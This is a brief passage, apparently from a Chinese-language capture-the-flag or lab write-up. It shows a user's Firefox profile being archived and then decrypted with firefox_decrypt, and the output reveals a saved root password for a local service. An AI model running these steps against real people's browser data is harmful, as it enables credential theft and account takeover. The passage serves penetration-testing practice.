

压缩firefox的文件到本地

```
tar -cvf firefox.tar.gz /home/elliot/.mozilla/firefox/esmhp32w.default-default/
```

解密的firefox的密码

> https://github.com/Unode/firefox_decrypt

```
┌──(root💀kali)-[/tmp/home/elliot]
└─# python3 /opt/firefox_decrypt/firefox_decrypt.py /tmp/home/elliot/.mozilla/firefox/esmhp32w.default-default 
2022-09-06 09:28:25,093 - WARNING - profile.ini not found in /tmp/home/elliot/.mozilla/firefox/esmhp32w.default-default
2022-09-06 09:28:25,093 - WARNING - Continuing and assuming '/tmp/home/elliot/.mozilla/firefox/esmhp32w.default-default' is a profile location

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'

```


